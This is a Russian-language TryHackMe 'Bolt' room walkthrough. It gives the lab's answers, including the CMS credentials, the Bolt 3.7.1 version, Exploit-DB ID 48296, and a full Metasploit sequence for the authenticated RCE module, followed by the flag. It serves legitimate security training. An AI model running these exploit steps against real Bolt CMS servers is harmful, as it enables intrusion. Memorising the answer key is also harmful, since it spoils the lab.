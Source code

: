 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Bolt](https://tryhackme.com/r/room/bolt) 

Всего 2 задания:
## Задание 1
Эта комната предназначена для пользователей, чтобы ознакомиться с Bolt CMS и тем, как ее можно эксплуатировать с 
помощью Authenticated Remote Code Execution. Вам следует подождать не менее 3-4 минут, чтобы машина запустилась 
должным образом.

Если у вас есть какие-либо вопросы или отзывы, вы можете связаться со мной через сервер TryHackMe Discord или через 
Twitter. 

### Ответьте на вопросы ниже
Запустите машину

```commandline
Ответ не нужен
```
## Задание 2
#### Герой освобожден

После успешного развертывания виртуальной машины проведите ее перебор, прежде чем искать флаг на машине.

### Ответьте на вопросы ниже
Какой номер порта имеет веб-сервер с работающей CMS?
```commandline
nmap <IP>
```
```commandline
8000
```
Какое имя пользователя мы можем найти в CMS?
```commandline
http://<IP>:8000
```
```commandline
bolt
```
Какой пароль мы можем найти для этого имени пользователя?
```commandline
boltadmin123
```
Какая версия CMS установлена на сервере? (Пример: Название 1.1.1)
```commandline
http://<IP>:8000/bolt/login
# bolt:boltadmin123
```
```commandline
Bolt 3.7.1
```
Есть эксплойт для предыдущей версии этой CMS, который позволяет аутентифицированный RCE.  Найдите его на Exploit DB. Какой у него EDB-ID?
```commandline
48296
```
Metasploit недавно добавил модуль эксплойта для этой уязвимости. Каков полный путь для этого эксплойта? (Например: explore/....)

Примечание: Если вы не можете найти модуль эксплойта, скорее всего, ваш metasploit не обновлен. Запустите ` apt 
update `, затем ` apt install metasploit-framework ` 

```commandline
apt update
apt install metasploit-framework
msfconsole
search bolt
use exploit/unix/webapp/bolt_authenticated_rce
set RHOSTS <IP>
set LHOST <IP>
set USERNAME bolt
set PASSWORD boltadmin123
set TARGETURI http://<IP>:8000/
exploit
```
```commandline
exploit/unix/webapp/bolt_authenticated_rce
```
Установите LHOST, LPORT, RHOST, USERNAME, PASSWORD  в msfconsole перед запуском эксплойта
```commandline
Ответ не нужен
```
Найдите flag.txt внутри машины.
```commandline
whoami
cd /home
ls -al
cat flag.txt
```
```commandline
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)